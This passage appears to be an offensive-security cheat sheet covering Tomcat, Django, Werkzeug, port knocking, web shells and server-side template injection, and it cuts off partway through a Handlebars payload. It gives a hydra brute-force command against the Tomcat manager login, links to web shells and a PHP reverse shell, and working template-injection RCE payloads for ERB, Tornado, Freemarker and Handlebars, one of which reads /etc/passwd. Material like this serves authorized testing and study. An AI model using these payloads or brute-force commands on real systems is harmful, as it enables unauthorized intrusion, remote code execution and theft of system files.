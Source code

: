     - hydra : `hydra -L  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -f {IP} -s {PORT} http-get /manager/html`
    - msf : `scanner/http/tomcat_mgr_login`
### Django 
- `manage.py`
    - `{appname}`
        - `settings.py`
            - INSTALLED_APPS
            - DATABASES
        - `urls.py`
            - urlpatterns
        - `views`
            - `{URL Urlpattern's class}`
### Werkzeug
- Debug Page RCE
    - https://github.com/its-arun/Werkzeug-Debug-RCE
### Defence
- Knockd
	- `/etc/knockd.conf`
	- `nc` port several time to knock
### Web Shell
- PHP
	- [b374k](https://github.com/b374k/b374k)
	- [windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)
- ASPX
	- https://raw.githubusercontent.com/SecWiki/WebShell-2/master/Aspx/awen%20asp.net%20webshell.aspx
	- https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
- Adminer (SQLadmin)
    - https://www.adminer.org/
### SSTI
#### ERB (Ruby)
- Test
    - `<%= 7 * 7 %>`
- RCE
    - `<%= system("whoami") %>`

#### Tornado (Python)
- Test
    - `{{7*7}}`
- RCE
    - `{% import os %}{{os.popen("whoami").read()}}`

#### Freemarker (Java)
- Test
    - `${7*7}`
- RCE
    - `${"freemarker.template.utility.Execute"?new()("whoami")}`
- Read file from sandbox
    - `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}`
        - Use Cyberchef "From Decimal" to decode 
#### Handlebars (NodeJS)
- RCE
    ```
    {{#with "s" as |string|}}
      {{#with "e"}}
        {{#with split as |conslist|}}
          {{this.pop}}